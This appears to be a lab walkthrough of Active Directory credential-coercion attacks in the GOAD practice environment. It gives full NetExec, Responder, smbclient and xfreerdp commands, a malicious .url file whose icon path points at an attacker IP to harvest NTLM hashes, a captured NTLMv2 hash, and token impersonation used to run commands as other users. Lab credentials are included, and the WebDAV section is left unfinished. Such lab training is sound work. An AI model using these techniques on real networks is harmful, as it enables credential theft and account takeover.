








The different techniques presented here need an active user to exploit them. For this attack, we need to have a valid user in the domain.
We will have to simulate the victim by RDP connection manually.
Coerce me with files
let’s start by enumerating CastelBlack server shares.
netexec smb castelblack.north.sevenkingdoms.local -u arya.stark -p 'Needle' -d north.sevenkingdoms.local --shares

We can see above that we have Read and Write access in all share.
So we can try some attacks here. Let’s start with slinky : .lnk file
Slinky: .lnk file
For this kind of attack, we will create a file with NetExec with module slinky. This module will create an ink file in every folders we do have Write permission on our target server.
1st - Let’s create and drop the file in a single command.
netexec smb castelblack.north.sevenkingdoms.local -u arya.stark -p 'Needle' -d north.sevenkingdoms.local --shares
netexec smb castelblack.north.sevenkingdoms.local -u arya.stark -p 'Needle' -d north.sevenkingdoms.local -M slinky -o NAME=.thumbs.db SERVER=attacker_ip

Above we can see that we enumerated the shares first then we created the .lnk file and added to all writable shares, in our case this file was added to all share.
After this, our next step is to launch Responder and listen on the network, in our case, we will use the interface on the network we are targeting.
sudo responder -I vmnet2

For this attack to work in this lab, we will login with a user, because we don’t have a valid bot.
Let’s use xfreerdp ro remote access to the machine.
xfreerdp /d:north.sevenkingdoms.local /u:catelyn.stark /p:robbsansabradonaryarickon /v:winterfell.north.sevenkingdoms.local /cert-ignore /size:80%
After connecting, we need to go to the shares all.
\\castelblack.north.sevenkingdoms.local\\all

Once the user access the share we get the users hash through Responder.

catelyn.stark::NORTH:19d99c632a805889:0A6C8691396FE9B6A3AD3B5B3B378671:0101000000000000807C08D0D26CDA0113EF01224A1B3CFE000000000200080036005A005300590001001E00570049004E002D004200560032003900370035003100460036005700510004003400570049004E002D00420056003200390037003500310046003600570051002E0036005A00530059002E004C004F00430041004C000300140036005A00530059002E004C004F00430041004C000500140036005A00530059002E004C004F00430041004C0007000800807C08D0D26CDA010600040002000000080030003000000000000000010000000020000014D15C2C005F5BBD167168BE6315E609F4B52B5F2604A44EB5ECB51FFF2D5E5E0A001000000000000000000000000000000000000900220063006900660073002F003100390032002E003100360038002E00350036002E0031000000000000000000We can now get the NTLMv2 hash and try to crack it using John or hashcat.
In case we can not crack the hash(for password complexity) It is also possible to do a relay here using ntlmrelayx.py to not smb signed server and get share access or admin access depending on the relayed authentication target.
To keep the lab clean, let’s clean this .lnk file.
netexec smb castelblack.north.sevenkingdoms.local -u arya.stark -p 'Needle' -d north.sevenkingdoms.local -M slinky -o NAME=.thumbs.db SERVER=attacker_ip CLEANUP=true
.scf : sucffy
The previous attack can also be achieved using .scf. The proccess is exactly the same as the previous one.
.url file
Now, this Coerce attack is by using .url files. Let’s start by creating a file called salaryFiles.url , it’s good to use creative names, even tho for this attack to work, the users doesn’t need to click/open the file, the user just need to access the folder were the file is.
[InternetShortcut]
URL=http://hr.company.com/pwned
WorkingDirectory=test
IconFile=\\10.4.10.1\%USERNAME%.icon
IconIndex=1The next step it to upload this file to the share we do have Write permission, in our case it the share all. we can use smblient.py to upload the file.
smbclient.py north.sevenkingdoms.local/arya.stark:Needle@castelblack.north.sevenkingdoms.local

After this, our next step is to launch Responder and listen on the network, in our case, we will use the interface on the network we are targeting.
sudo responder -I vmnet2
After uploading the file into the share all, we will access remotely to simulate a valid user.
xfreerdp /d:north.sevenkingdoms.local /u:catelyn.stark /p:robbsansabradonaryarickon /v:winterfell.north.sevenkingdoms.local /cert-ignore /size:80%
access the share below
\\castelblack.north.sevenkingdoms.local\\all

After the user access the share, we will get the user hash through Responder.

Webdav coerce - I need to get later back to finish it
For this attack to work, webdav needs to be enabled on the host.
Let’s start by enumerating webdav using NetExec.
netexec smb 10.4.10.10-23 -u arya.stark -p 'Needle' -d 'north.sevenkingdoms.local' -M webdav

As we can see above, webdav is not enabled on none of the servers in the network.
For the labbing purpose, we can enable webdav by remote accessing the host. Webdav is installed on essos.local Domain Controller (braavos.essos.local) but it’s not enabled
We can see that webdav is installed, but not enable it.
xfreerdp /d:essos.local /u:khal.drogo /p:horse /v:braavos.essos.local /cert-ignore

Now let’s continue… We can use Netexec for the next step or we can also create our file and upload it using smbclient.py. For this, i’ll use NetExec.
netexec smb castelblack.north.sevenkingdoms.local -u arya.stark -p 'Needle' -d 'north.sevenkingdoms.local' -M drop-sc

Above it’s possible to see that, NetExec enumerated the shares we do have Write access, created the malicious file and uploaded it to the share we do have Write permission, which is the all .
Once the attacker access the share we were able to upload the malicious file, it will automatically enable WebDav.

If we enumerate the Webdav service again on the network, we will notice that webdav is enabled now on our network on host 10.4.10.23.

Once we see the webclient started we can add a DNS entry to our responder ip with dnstools
Impersonate Users
Another cool way to take other accounts is using token impersonation.
Let’s use NetExec for this attack, we need to to have a valid user in the domain.
netexec smb castelblack.north.sevenkingdoms.local -u 'jeor.mormont' -p 'L0ngCl@w' -d north.sevenkingdoms.local -M impersonate

As we can see above, we were able to launch this attack, and now we have a token ID of each of the users.
Now we just need to execute commands as a user, using the user token ID.
netexec smb castelblack.north.sevenkingdoms.local -u 'jeor.mormont' -p 'L0ngCl@w' -d north.sevenkingdoms.local -M impersonate -o TOKEN=6 EXEC=whoami

We can see see above that we can execute any command impersonting any kind of user by choosing the Token ID.